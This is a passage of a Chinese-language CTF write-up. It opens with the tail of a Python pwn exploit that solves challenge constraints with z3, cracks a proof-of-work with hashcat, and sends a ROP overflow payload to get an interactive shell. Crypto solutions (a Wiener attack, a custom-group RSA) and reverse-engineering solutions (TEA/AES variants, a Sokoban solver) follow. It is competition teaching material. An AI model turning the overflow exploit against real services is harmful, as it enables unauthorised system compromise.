            mov_esi = block[i-2]

            assert mov_esi.opcode == 'mov'

            assert mov_esi.args[0] == 'esi'

            length = int(mov_esi.args[1], 0)

            lea_ins = block[i-3]    # lea    rax,[rbp-0x6e0]

            assert lea_ins.opcode == 'lea'

            assert lea_ins.args[0] == 'rax'

            mo = pattern.search(lea_ins.args[1])

            if mo:

                base = int(mo.group(1), 16)

            else:

                raise ValueError('invalid option: %s' % lea_ins.args[1])

            print('length = %#x' % length)

            for j in range(length):

                key = 'BYTE PTR [rbp-%#x]' % (base-j)

                bv = BitVec(key, 8)

                symbols[key] = bv

                user_input.append(bv)

            i += 1

        else:

            if len(user_input):

                if ins.opcode in ['lea', 'test', 'setz', 'sete']:

                    pass

                elif ins.opcode == 'call':

                    lea_rsi = block[i-2]

                    assert lea_rsi.opcode == 'lea'

                    assert lea_rsi.args[0] == 'rsi'

                    mo = pattern2.match(lea_rsi.args[1])

                    if not mo:

                        raise ValueError('invalid lea_rsi: %s' % lea_rsi)

                    pos = int(mo.group(1), 0) + int(lea_rsi.choice, 16) - 0x400000

                    value = bin_content[pos:pos+length]

                    for j in range(length):

                        key = 'BYTE PTR [rbp-%#x]' % (base-j)

                        solver.add(symbols[key] == BitVecVal(value[j], 8))

                elif ins.opcode == 'mov' and ins.args[1] == 'rax':

                    pass

                else:

                    if len(ins.args) > 1 and ins.args[1] == 'al':

                        args = [ins.args[0], 'eax']

                    else:

                        args = ins.args

                    ops[ins.opcode](solver, symbols, args, size=8)

                

            i += 1

    if not match:

        return bytes([random.randint(65, 90) for i in range(len(user_input))])

    if solver.check() == sat:

        m = solver.model()

        ret = []

        for i in range(len(user_input)):

            ret.append(m[user_input[i]].as_long())

        return bytes(ret)

    raise Exception('unsat')

def walk(io):

    idx = 0

    addr = instructions[0].addr

    block = []

    while True:

        ins = mapping[addr]

        if len(ins.exits) == 1:

            if ins.choice != ins.exits[0]:

                return

            block.append(ins)

            addr = ins.choice

            continue

        print('handling block with %d instructions' % (len(block), ))

        assert ins.choice in ins.exits

        if block[-1].opcode == 'cmp':

            # math

            if ins.choice in ins.args[0]:

                if ins.opcode in ['jz', 'je']:

                    should_match = True

                else:

                    print(ins)

                    assert ins.opcode in ['jnz', 'jne']

                    should_match = False

            else:

                if ins.opcode in ['jz', 'je']:

                    should_match = False

                else:

                    assert ins.opcode in ['jnz', 'jne']

                    should_match = True

            ret = solve_math(block, should_match)

            v = ' '.join([str(x) for x in ret])

            print('solve math:', v)

            io.read_until(b':')

            io.write(v + ' ')

        elif block[-1].opcode == 'test':

            if ins.choice in ins.args[0]:

                if ins.opcode in ['jz', 'je']:

                    should_match = False

                else:

                    assert ins.opcode in ['jnz', 'jne'], ins.opcode

                    should_match = True

            else:

                if ins.opcode in ['jz', 'je']:

                    should_match = True

                else:

                    assert ins.opcode in ['jnz', 'jne']

                    should_match = False

            ret = solve_array(block, should_match)

            print('solve array:', ret)

            io.read_until(b':')

            io.write(ret)

        else:

            print(block[-1])

            raise ValueError('not possible')

        print('next block entry: %s' % ins.choice)

        block = []

        addr = ins.choice

LOCAL = True

target = './bin.patched'

if os.getenv('TARGET'):

    ary = os.getenv('TARGET').split(':')

    target = (ary[0], int(ary[1]))

    LOCAL = False

def solve_pow(suffix, hsh):

    if isinstance(hsh, bytes):

        hsh = hsh.decode('utf-8')

    if isinstance(suffix, bytes):

        suffix = suffix.decode('utf-8')

    p = ['hashcat', '--potfile-disable', '--quiet', '--outfile-format', '2', '-a', '3', '-m1400', hsh.strip(), '?a?a?a?a' + suffix.strip()]

    pio = zio(p)

    x = pio.readline()

    pio.close()

    return x[:4]

print('target = %r' % (target, ))

io = zio(target, print_read=COLORED(RAW, 'yellow'), print_write=COLORED(RAW, 'cyan'), timeout=10000)

if LOCAL:

    io.gdb_hint(breakpoints=[

        0x40141F,

    ])

    bin_content = open(target, 'rb').read()

    instructions, mapping, reverse_map = load_disasm('disasm.txt')

else:

    io.read_until(b'sha256(xxxx + ')

    suffix = io.read_until(b') == ', keep=False)

    hsh = io.read_line(keep=False)

    ans = solve_pow(suffix, hsh)

    io.read_until(b'give me xxxx:')

    io.writeline(ans)

    b64 = io.read_until(b'==end==', keep=False)

    bin_content = base64.b64decode(b64.strip())

    with open('bin.tmp', 'wb') as f:

        f.write(bin_content)

    with open('bin.tmp.disasm.txt', 'w') as f:

        proc = subprocess.run(['objdump', '-M', 'intel',  '-d', './bin.tmp'], stdout=f, stderr=f)

    instructions, mapping, reverse_map = load_disasm('bin.tmp.disasm.txt')

idx, overflow_offset, overflow_size = find_overflow()

print(idx)

print(instructions[idx-3])

print(instructions[idx-2])

print(instructions[idx-1])

print(instructions[idx-0])

find_path(idx)

walk(io)

ret = 0x401379

system = 0x40134C

payload = l64(ret) * ((overflow_offset // 8) + 1) + l64(ret) + l64(system)

io.write(payload.ljust(overflow_size, b'_'))

io.interact()
```

# Crypto

### ciruit map

描述：

A valid map

Digital circuits is hard , right?

https://vergissmeinnichtz.github.io/posts/2021dicectf-writeup/   2021dicectf原题

```Python
import hashlib

from Crypto.Util.number import long_to_bytes

def xor(A, B):

    return bytes(a ^ b for a, b in zip(A, B))

input = [

    [13675268, 8343801],

    [12870274, 10251687],

    [12490757, 6827786],

    [3391233, 2096572],

    [4567418, 15707475], 

    [3648155, 14095476], 

    [8680011, 14409690], 

    [2504390, 9376523]  #先求出的key

]

xor1 = b''

for i in input:

    tmp = sum(i)

    xor1 += bytes(long_to_bytes(tmp))

mask = hashlib.md5(xor1).digest()

flag = long_to_bytes(0x1661fe85c7b01b3db1d432ad3c5ac83a)

print(xor(mask, flag))
```

### cubic

nc 123.60.153.41 7002

A valid cubic

经典的自定义群运算题目，很显然这是一个有限群，所以其商群必然存在循环群。根据欧拉定理的证明可以得出，欧拉定理适用的条件是循环群，因此该题目定义的群是符合欧拉定理的。RSA也是基于欧拉定理，所以这道题和RSA的解法很像。

现在的关键问题是寻找一种方法求群上元素的阶，这是应用欧拉定理的关键数据。观察代码可以看出这个群的单位元是`(None, None)`，我们不妨打个表来找一下规律，用下面的脚本：

```Python
from Crypto.Util.number import *

def add(P, Q, mod):

    x1, y1 = P

    x2, y2 = Q

    if x2 is None:

        return P

    if x1 is None:

        return Q

    if y1 is None and y2 is None:

        x = x1 * x2 % mod

        y = (x1 + x2) % mod

        return (x, y)

    if y1 is None and y2 is not None:

        x1, y1, x2, y2 = x2, y2, x1, y1

    if y2 is None:

        if (y1 + x2) % mod != 0:

            x = (x1 * x2 + 2) * inverse(y1 + x2, mod) % mod

            y = (x1 + y1 * x2) * inverse(y1 + x2, mod) % mod

            return (x, y)

        elif (x1 - y1 ** 2) % mod != 0:

            x = (x1 * x2 + 2) * inverse(x1 - y1 ** 2, mod) % mod

            return (x, None)

        else:

            return (None, None)

    else:

        if (x1 + x2 + y1 * y2) % mod != 0:

            x = (x1 * x2 + (y1 + y2) * 2) * inverse(x1 + x2 + y1 * y2, mod) % mod

            y = (y1 * x2 + x1 * y2 + 2) * inverse(x1 + x2 + y1 * y2, mod) % mod

            return (x, y)

        elif (y1 * x2 + x1 * y2 + 2) % mod != 0:

            x = (x1 * x2 + (y1 + y2) * 2) * inverse(y1 * x2 + x1 * y2 + 2, mod) % mod

            return (x, None)

        else:

            return (None, None)

def myPower(P, a, mod):

    target = (None, None)

    t = P

    while a > 0:

        if a % 2:

            target = add(target, t, mod)

        t = add(t, t, mod)

        a >>= 1

    return target

def genPrime(nbits):

    while True:

        a = random.getrandbits(nbits // 2)

        b = random.getrandbits(nbits // 2)

        if b % 3 == 0:

            continue

        p = a ** 2 + 3 * b ** 2

        if p.bit_length() == nbits and p % 3 == 1 and isPrime(p):

            return p

def order(v, p):

    i = 1

    while True:

        if myPower(v, i, p) == (None, None):

            return i

        i += 1

test = (1, 1)

print("p\t\torder\t\tp^2\t\t\tp^3")

for _ in range(10):

    p = genPrime(8)

    print("%d\t\t%d\t\t%d\t\t%d" % (p, order(test, p), p ** 2, p ** 3))
```

分析输出：

```Apache
p        order       p^2         p^3

199        13267       39601       7880599

199        13267       39601       7880599

211        14911       44521       9393931

199        13267       39601       7880599

181        10981       32761       5929741

163        1273        26569       4330747

211        14911       44521       9393931

193        12481       37249       7189057

151        7651        22801       3442951

241        19441       58081       13997521
```

发现，$p^3-1$都是order的倍数。那么完全可以当作阶来用。又因为flag不会太大，因此题目中用的模数`pad*N`完全可以用`p`或者`q`代替，这样这个题就做出来了。

exp如下：

```Python
from math import gcd 

import gmpy2 

from Crypto.Util.number import inverse, long_to_bytes 

 

def RSAdecompose(n, ed): 

    tmp = ed - 1 

    s = 0 

    while tmp % 2 == 0: 

        s += 1 

        tmp //= 2 

    t = tmp 

     

    A = 0 

    I = 0 

     

    find = False 

    for a in range(2, n): 

        for i in range(1, s + 1): 

            if pow(a, pow(2, i - 1) * t, n) != 1 and pow(a, pow(2, i - 1) * t, n) != n - 1 and pow(a, pow(2,i) * t, n) == 1: 

                A = a 

                I = i 

                find = True 

                break 

        if find: 

            break 

     

    if A == 0 and I == 0: 

        return None 

     

    p = gcd(pow(A, pow(2, I - 1) * t, n) - 1, n) 

    q = n // p 

    assert p * q == n 

     

    return (p, q) 

 

def rational_to_quotients(x, y): 

    a = x // y 

    quotients = [a] 

    while a * y != x: 

        x, y = y, x - a * y 

        a = x // y 

        quotients.append(a) 

    return quotients 

 

def convergents_from_quotients(quotients): 

    convergents = [(quotients[0], 1)] 

    for i in range(2, len(quotients) + 1): 

        quotients_partion = quotients[0:i] 

        denom = quotients_partion[-1]  # 分母 

        num = 1 

        for _ in range(-2, -len(quotients_partion), -1): 

            num, denom = denom, quotients_partion[_] * denom + num 

        num += denom * quotients_partion[0] 

        convergents.append((num, denom)) 

    return convergents 

 

def WienerAttack(e, n): 

    quotients = rational_to_quotients(e, n) 

    convergents = convergents_from_quotients(quotients) 

    for (k, d) in convergents: 

        if k and not (e * d - 1) % k: 

            phi = (e * d - 1) // k 

            # check if (x^2 - coef * x + n = 0) has integer roots 

            coef = n - phi + 1 

            delta = coef * coef - 4 * n 

            if delta > 0 and gmpy2.iroot(delta, 2)[1] == True: 

                return d 

 

def add(P, Q, mod): 

    x1, y1 = P 

    x2, y2 = Q 

 

    if x2 is None: 

        return P 

    if x1 is None: 

        return Q 

 

    if y1 is None and y2 is None: 

        x = x1 * x2 % mod 

        y = (x1 + x2) % mod 

        return (x, y) 

 

    if y1 is None and y2 is not None: 

        x1, y1, x2, y2 = x2, y2, x1, y1 

 

    if y2 is None: 

        if (y1 + x2) % mod != 0: 

            x = (x1 * x2 + 2) * inverse(y1 + x2, mod) % mod 

            y = (x1 + y1 * x2) * inverse(y1 + x2, mod) % mod 

            return (x, y) 

        elif (x1 - y1 ** 2) % mod != 0: 

            x = (x1 * x2 + 2) * inverse(x1 - y1 ** 2, mod) % mod 

            return (x, None) 

        else: 

            return (None, None) 

    else: 

        if (x1 + x2 + y1 * y2) % mod != 0: 

            x = (x1 * x2 + (y1 + y2) * 2) * inverse(x1 + x2 + y1 * y2, mod) % mod 

            y = (y1 * x2 + x1 * y2 + 2) * inverse(x1 + x2 + y1 * y2, mod) % mod 

            return (x, y) 

        elif (y1 * x2 + x1 * y2 + 2) % mod != 0: 

            x = (x1 * x2 + (y1 + y2) * 2) * inverse(y1 * x2 + x1 * y2 + 2, mod) % mod 

            return (x, None) 

        else: 

            return (None, None) 

 

 

def myPower(P, a, mod): 

    target = (None, None) 

    t = P 

    while a > 0: 

        if a % 2: 

            target = add(target, t, mod) 

        t = add(t, t, mod) 

        a >>= 1 

    return target 

 

e = 4900663392474333511021274640586676041190209685334279465644481953732654820007817465784732552403161544491127978960528622855662226436013278818654816634231988610344582782186016441780833459265436490192924918161499546130585534712016341883862636292562878766223441301439228458011482886280440623319855294068082796058072724036574171831263278231498144433634711174601580662800543021165022020993826916028784897066067245828422668690991474561604415237342722134303009211975140707793593659250476825594367676528487883099797429162461388379576349794949052029036932537743737882862455041914136992742454025785618036422947521579196419682673 

N = 16747204882417711556566528921331201720409686477045148358102407358649177037162364757337579737480709279957814538616282656834391036843801973604436858315398426544680221288140414500707975771367683893038710797912471910646361535977073670535351131336367114860464749825264434600778157181779675957160461431719021503108817300190687402628173857695242091154625300957259974276165473530538699640521880788598671262492360267197522031691979305758467455462308866998372462867278079383311005053482404930635325015230152289437841471244731705014411625162283665596766705850908703578792897039321331779312997615919261149792657373096116865329681 

cipher = (1502537198037412138959404925273947125135815733714613113514320632189593377751418476234621558490959338311604744450862970281032410900602855827915451892812987364777765959947084373897245818509290955227026042711684121325311823058498537239012028561792486103281876155615838531477852906000341526557222599310995739831543658223880935572087312742332183395367851697095266248237233506401316404436470875195714876017630583057770038474875796980993028217458408971552567154328292460799613025812259659231108327829165282506352092076311191840744613851846363317595941811588179124381597704935053201484470162263659131968489028564549622533697954537751062579586560414593976837419255907900029822338445737875577148140312280440226776902211723292101877348185901719741368457958588921796200981975075293129980056841456107867653473926640266384852447661565261302935222903023606406288336953609068541701972215445007377344441511973422565646147322055069598488293931, 1011403345603727408945876921250066820314220339105409921963107559195469502064003760326598913179366575981301702956740453627420761328713409390410661289472471898555514549526488404880640921605411282791715962933303870043871446613392022087329011550301515712639691076925568594867583281055065644358838017936361812762277354217939625893846603092627092038863632584999212161084360711665335337867672785946059549908812080484214952167276959823859872433687012399699321821628902087613134849101298661182346870557214136938336080489056200804879187330910338994984002258978932867300612824944744731909867671800598959017549057154534956670423369755122935318059535865610235297367836119658331560061846307081157317985910548447143673273543728783307221862568130810339529595961095105799484367002894090836242935087629943182476006427583114853476474037533007772721440732363420948049914690375136821227018708695289507462018947270591332826564337207730588105092063) 

padding = 105633841121800385495299323793575525757662062720618660464374134421074511358214855668399510418917564552735810735896127683524211092138747188289947813061924731524251612980721176172871908031798142300682065573614320720911139764848510512663864510199192378016664027839477108506581437250078083046615135331808942191529 

 

 

d = WienerAttack(e, N) 

p, q = RSAdecompose(N, e * d) 

msg = myPower(cipher, inverse(e, (p ** 3 - 1)), p) 
flag = long_to_bytes(msg[0]) + long_to_bytes(msg[1]) 

print(flag)
```

# Rev

### **SycGame**

逆向后得出是一个推箱子游戏，给出 flag 的条件是连续玩游戏赢 5 次。

游戏的流程为：

1. 生成一个固定的长度为 3001 的数组，数组值为 0 或 1。
2. 随机生成一个 20 x 20 大小的地图，地图上有一些正整数和 -1、-2、-3。如果是 -1 则是箱子，-2 是玩家位置，-3 是箱子的目的地。如果是正整数则对应回第 1 步所得的数组小下标，如果是 0 就是不能走，1 就是可以走。
3. 将地图作为一个长度为 400 的列表输出。
4. 读入 w、a、s、d 的输入，根据输入移动玩家位置。如果玩家位置移动的方向有箱子，则将箱子同方向移动（推箱子）；如果箱子移动的方向有目的地，则将箱子推到目的地上并给一个计数器 +1。如果箱子从目的地上被推开了则将计数器 -1。
5. 当计数器的值等于箱子的数量则游戏胜利，否则如果玩家走到了不能走的地方或者非法输入则游戏失败。

搞懂了这个之后剩下就是写算法玩游戏了。因为箱子和目的地没有特定的关系（任何箱子推到任何目的地都算成功），所以我们直接用贪心和 BFS 来搜索。具体方式是先选一个没有处理过的箱子，接着 BFS 搜到最近的目的地（搜索的时候保证推的方向的反方向格子是可以走到的）。得到路径后，对于每一个推的操作，从玩家当前位置 BFS 搜到推箱子操作的反方向，然后推箱子。重复这个过程直到箱子被推到终点，然后将箱子的位置设成不能走，保证以后不会不小心碰到箱子。最后重复整个过程直到所有箱子被推到终点。

程序生成的地图不保证有解，包括我们的算法也处理不了一些特殊情况，所以有时候搜不出来解。还有一些程序本身的 bug，比如不能走到 -3 或者 -2 的上面，导致算法有时候会与程序的模拟不一致。不过只要我们有获胜的概率，我们可以重复游玩，直到连续五次胜利。这个概率不算太高，不过玩大概 200 盘左右就有一次，所以我们直接失败重开，最后成功拿到 flag。

### **SycOS**

```C%2B%2B
#include<stdlib.h>

#include <stdio.h>  

#include <stdint.h>  

uint64_t d_2ec8 = 0;

uint8_t d_2ed8[0x80 * 0x20];

uint8_t d_2ed0[0x80 * 0x20];

uint8_t fakerandom() {

        d_2ec8 = d_2ec8 * 0x41c64e6d + 0x3039;

        //printf("d_2ec8 = 0x%llx\n", d_2ec8);

        return (uint8_t)((d_2ec8 << 0x21) >> 0x31);

}

void encrypt(uint32_t* v, uint32_t* k) {

        uint32_t v0 = v[0], v1 = v[1], sum = 0, i;           /* set up */

        uint32_t delta = 0x9e3779b9;                     /* a key schedule constant */

        uint32_t k0 = k[0], k1 = k[1], k2 = k[2], k3 = k[3];   /* cache key */

        for (i = 0; i < 16; i++) {                       /* basic cycle start */

                sum += delta;

                v0 += ((v1 << 4) + k0) ^ (v1 + sum) ^ ((v1 >> 5) + k1);

                v1 += ((v0 << 4) + k2) ^ (v0 + sum) ^ ((v0 >> 5) + k3);

        }                                              /* end cycle */

        v[0] = v0; v[1] = v1;

}

//解密函数  

void encrypt1(uint32_t* v, uint32_t* k) {

        uint32_t v0 = v[0], v1 = v[1], sum =0, i;  /* set up */

        uint32_t delta = 0x9e3779b9;                     /* a key schedule constant */

        uint32_t k0 = k[0], k1 = k[1], k2 = k[2], k3 = k[3];   /* cache key */

        for (i = 0; i < 8; i++) {                         /* basic cycle start */

                v1 -= ((v0 << 4) + k2) ^ (v0 + sum) ^ ((v0 >> 5) + k3);

                v0 -= ((v1 << 4) + k0) ^ (v1 + sum) ^ ((v1 >> 5) + k1);

                sum += delta;

        }                                              /* end cycle */

        v[0] = v0; v[1] = v1;

}

void exchange(int index) {

        uint8_t tmp[0x100];

        for (int i = 0; i < 0x100; ++i)

        {

                tmp[i] = d_2ed8[0x100 * index + i];

                d_2ed8[0x100 * index + i] = d_2ed0[0x100 * (0xf-index) + i];

                d_2ed0[0x100 * (0xf - index) + i] = tmp[i];

        }

}

void bigexchange() {

        uint8_t tmp[0x80 * 0x20];

        for (int i = 0; i < 0x80 * 0x20; ++i) {

                tmp[i] = d_2ed8[i];

                d_2ed8[i] = d_2ed0[i];

                d_2ed0[i] = tmp[i];

        }

}

int main() {

        unsigned char input[0x41] = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";

        int var3 = 0x80;

        int var1 = 0;

        int var5 = 0;

        for (int i = 0; i < 0x20; i++) {

                d_2ec8 = input[i] + i;

                for (int j = 0; j < 0x80; ++j) {

                        uint8_t tmp = fakerandom();

                        d_2ed8[0x80 * i + j] = tmp;

                }

        }

        for (int i = 0; i < 0x20; ++i) {

                d_2ec8 = input[0x20 + i] + i;

                for (int j = 0; j < 0x80; ++j) {

                        uint8_t tmp = fakerandom();

                        d_2ed0[0x80 * i + j] = tmp;

                }

        }

        for(int index = 0 ; index < 0x10 ; ++index){

        for (int i = 0; i < 0x1000; i += 8) {

                uint32_t v[2];

                uint32_t  key[4] = { 0x11222233 ,0xAABBCCDD, 0x1a2b3c4d,0xcc1122aa };

                v[0] = *(uint32_t*)(d_2ed8 + i);

                v[1] = *(uint32_t*)(d_2ed8 + 4 + i);

                encrypt(v, key);

                //        printf("v0 == %lx v1== %lx",v[0],v[1]);

                *(uint32_t*)(d_2ed8 + i) = v[0];

                *(uint32_t*)(d_2ed8 + 4 + i) = v[1];

        }

        for (int i = 0; i < 0x1000; i += 8) {

                uint32_t v[2];

                uint32_t  key[4] = { 0x11222233 ,0xAABBCCDD, 0x1a2b3c4d,0xcc1122aa };

                v[0] = *(uint32_t*)(d_2ed0 + i);

                v[1] = *(uint32_t*)(d_2ed0 + 4 + i);

                encrypt1(v, key);

                //        printf("v0 == %lx v1== %lx",v[0],v[1]);

                *(uint32_t*)(d_2ed0 + i) = v[0];

                *(uint32_t*)(d_2ed0 + 4 + i) = v[1];

        }

        exchange(index);

        bigexchange();

}

        printf("d_2ed8 = ");

        for (int i = 0; i < 16; ++i)

                printf("%x ",d_2ed8[i]);

        printf("\n");

        for (int i = 0; i < 16; ++i)

                printf("%x ", d_2ed8[0xf*0x100 +i]);

        printf("\n d_2ed0= ");

        for (int i = 0; i < 16; ++i)

                printf("%x ", d_2ed0[i]);

        printf("\n");

        for (int i = 0; i < 16; ++i)

                printf("%x ", d_2ed0[0xf * 0x100 + i]);

        

}
```



比较的数在1ec8 ec8 ghidra 打开sctf看一下就行 前面的代码是它的加密流程

### godness dance

逆向发现，程序输入一个长度 28 的字符串，如果符合条件，就会包裹到 `SCTF{}` 内然后输出。因此这个字符串就是 flag 的核心部分。

首先，程序会做第一部分的检查，根据逻辑，统计每个字符出现的次数，然后跟一个预置的列表进行比较，如果发现不相等，就打印 “count wrong”。因此通过这里可以得到每个字符出现的次数列表。

实际情况是，只允许小写字母，而且大部分出现次数都是 1，少量字母可以出现 2 次。

到这一步，我们可以判断出 flag 是 `abcdefghiijklmnopqrstuuvwxyz` 的某个排列。

接下来，有一个函数把 flag 传进去，然后做了一系列操作算出来一个数组，最后跟一个预置的全局数组进行对比，只有完全相等才能通过。因此主要是逆向这个函数。

这个函数中间有一大坨代码是让人不太想看的，但是好在一眼看过去，只有一些 shuffle 相关和统计相关的部分，没有特别复杂的逻辑出现。此外，观察到最终的 check 数组是从 0-28 的一个排列，因此猜测只是在表达每个字符的对应位置。

通过 gdb 尝试来输入几个测试例子，尝试换一换字母的顺序更加印证了这一点。

于是尝试写一段代码来恢复:

```Prolog
charset = b'abcdefghiijklmnopqrstuuvwxyz'

seq = [0x2, 0x1A, 0x11, 0x1C, 0x18, 0x0B, 0x15, 0x0A, 0x10, 0x14, 0x13, 0x12, 0x3, 0x8, 0x6, 0x0C, 0x9, 0x0E, 0x0D, 0x16, 0x4, 0x1B, 0x0F, 0x17, 0x1, 0x19, 0x7, 0x5]

flag = [None] * 29

for i, e in enumerate(seq):

    flag[e] = charset[i]

    

print(bytes(flag[1:]))
$ ./dance.out 

Input:waltznymphforquickjigsvexbud

Good for you!

flag:SCTF{waltznymphforquickjigsvexbud}
```

### **CplusExceptionEncrypt**

描述：cpp is a good language

使用ssh穿起来的逻辑，可以这样将他处理





计算 0x402c37-0x402730=0x507

然后把throw改成 jmp 0x572

jmp 0x502

就行了

可能还要简单根据结构体确认一下跳转

分析了一下大部分的操作都用seh框起来，目测是xxtea

魔改的tea+稍微正常的aes（也魔改了）

tea部分

```C
void encrypt (uint32_t* v, uint32_t* k) {  

    uint32_t v0=v[0], v1=v[1], v2=v[2], v3=v[3];

    uint32_t sum1=0,sum2=0, i;           /* set up */  

    uint32_t delta=0x73637466;                     /* a key schedule constant */  

    uint32_t k0=k[0], k1=k[1], k2=k[2], k3=k[3];   /* cache key */  

    for (i=0; i < 32; i++) {                       /* basic cycle start */  

        sum1 += delta;  

        sum2 += delta;  

        v0 += ((v1<<4) + k2) ^ (sum1 + v1) ^ ((v1>>5) + k3) ^ (sum1 + i);  

        v2 += ((v3<<4) + k2) ^ (sum2 + v3) ^ ((v3>>5) + k3) ^ (sum2 + i);  

        v1 += ((v0<<4) + k0) ^ (sum1 + v0) ^ ((v0>>5) + k1) ^ (sum1 + i);  

        v3 += ((v2<<4) + k0) ^ (sum2 + v2) ^ ((v2>>5) + k1) ^ (sum2 + i);  

        // v1 += ((v0<<4) + k2) ^ (v0 + sum) ^ ((v0>>5) + k3);  

    }                                              /* end cycle */  

    v[0]=v0 ^ ((delta>>24)&0xff); v[1]=v1^ ((delta>>16)&0xff);  

    v[2]=v2^ ((delta>>8)&0xff); v[3]=v3 ^ ((delta)&0xff);  

}  

//解密函数  

void decrypt (uint32_t* v, uint32_t* k) {  

    uint32_t v0=v[0], v1=v[1], v2=v[2], v3=v[3];

    uint32_t sum1=0x6c6e8cc0,sum2=0x6c6e8cc0;

    int i;  /* set up */  

    uint32_t delta=0x73637466;                     /* a key schedule constant */  

    uint32_t k0=k[0], k1=k[1], k2=k[2], k3=k[3];   /* cache key */  

    v0=v0 ^ ((delta>>24)&0xff); v1=v1^ ((delta>>16)&0xff);  

    v2=v2^ ((delta>>8)&0xff); v3=v3 ^ ((delta)&0xff); 

    for (i=31; i>=0; i--) {                         /* basic cycle start */  

        v3 -= ((v2<<4) + k0) ^ (sum2 + v2) ^ ((v2>>5) + k1) ^ (sum2 + i);  

        v1 -= ((v0<<4) + k0) ^ (sum1 + v0) ^ ((v0>>5) + k1) ^ (sum1 + i);  

        v2 -= ((v3<<4) + k2) ^ (sum2 + v3) ^ ((v3>>5) + k3) ^ (sum2 + i);  

        v0 -= ((v1<<4) + k2) ^ (sum1 + v1) ^ ((v1>>5) + k3) ^ (sum1 + i);  

        sum1 -= delta;  

        sum2 -= delta;  

    }                                              /* end cycle */  

    v[0]=v0; v[1]=v1;  

    v[2]=v2; v[3]=v3;  

}  

 
```

AES魔改部分

```C
oid __cdecl enc_next(uint8_t *roundkeys, uint8_t *plaintext, uint8_t *ciphertext)

{

  _DWORD *v3; // rax

  _DWORD *v4; // rax

  struct type_info *v5; // rdx

  void *v6; // rbx

  uint8_t *v7; // rax

  uint8_t *v8; // rax

  void *v9; // rbx

  void *v10; // rax

  uint8_t *v11; // rax

  std::__cxx11::string temp_2; // [rsp+20h] [rbp-60h] BYREF

  uint8_t tmp[16]; // [rsp+40h] [rbp-40h] BYREF

  char v14; // [rsp+5Eh] [rbp-22h] BYREF

  uint8_t t; // [rsp+5Fh] [rbp-21h]

  double temp_1; // [rsp+60h] [rbp-20h]

  int temp_0; // [rsp+6Ch] [rbp-14h]

  char temp; // [rsp+73h] [rbp-Dh]

  int a; // [rsp+74h] [rbp-Ch]

  int cnt; // [rsp+78h] [rbp-8h]

  uint8_t j; // [rsp+7Eh] [rbp-2h]

  uint8_t i; // [rsp+7Fh] [rbp-1h]

  v3 = _cxa_allocate_exception(4ui64);

  *v3 = 1;

  if ( refptr__ZTIi != (struct type_info *const)1 )

    Unwind_Resume(v3);

  a = *(_DWORD *)_cxa_begin_catch(v3);

  for ( i = 0; i <= 0xFu; ++i )

  {

    v8 = roundkeys++;

    ciphertext[i] = *v8 ^ plaintext[i] ^ 0x66; // 多了一个^0x66

  }

  _cxa_end_catch();

  // 后面逻辑大致整理

static void CipherSCTF(state_t* state, const uint8_t* RoundKey)

{

  uint8_t round = 0;

  // Add the First round key to the state before starting the rounds.

  AddRoundKeyDec(0, state, RoundKey); // ciphertext[i] = *v8 ^ plaintext[i] ^ 0x66; // 多了一个^0x66

  // There will be Nr rounds.

  // The first Nr-1 rounds are identical.

  // These Nr rounds are executed in the loop below.

  // Last one without InvMixColumn()

  for (round = 1; ; ++round)

  {

    InvShiftRows(state);

    InvSubBytes(state);

    MixColumns(state);

    AddRoundKey(round, state, RoundKey);

    if (round == Nr) {

      SubBytes(state);

      ShiftRows(state);

      AddRoundKey(round, state, RoundKey);

      break;

    }

    

  }

}
```

加密流程：

 \- 输入32个字符

- TEA处理前16个
- AES处理前16个
- TEA处理后16个
- AES处理后16个
- 比较

根据上述描述写出解密即可
